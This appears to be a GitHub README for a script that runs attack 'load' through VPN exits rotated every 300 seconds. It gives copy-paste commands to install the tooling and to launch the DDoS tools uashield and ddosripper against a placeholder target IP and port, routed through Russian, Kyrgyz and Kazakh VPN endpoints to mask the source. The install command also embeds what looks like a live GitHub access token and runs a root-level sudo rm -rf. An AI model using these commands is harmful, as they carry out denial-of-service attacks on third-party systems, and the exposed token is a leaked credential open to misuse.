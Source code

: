 # WTF
Script thay runs load under vpn and refreshes vpn every 300 seconds

# Install
```
cd / && sudo rm -rf runner && \
sudo git clone https://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@github.com/ctukraine22/runner && \
cd /runner && bash install.sh
```
# Run
To use cyberhost you need for repo and replace key and crt: https://github.com/qdm12/gluetun/wiki/Cyberghost
run uashield on cyberhost
```
cd /runner && . ./runner.sh && init 0 0 %user% %pass% cyberghost "Russian Federation" 97-1-ru.cg-dialup.net tcp && uashield
```
run uashield on expressvpn
```
cd /runner && . ./runner.sh && init 0 0 %user% %pass% expressvpn Kyrgyzstan kyrgyzstan-ca-version-2.expressnetw.com && uashield
```
run ddosripper for %ip% %port% on expressvpn
cd /runner && . ./runner.sh && init %ip% %port% %user% %pass% expressvpn Kazakhstan && ddosripper

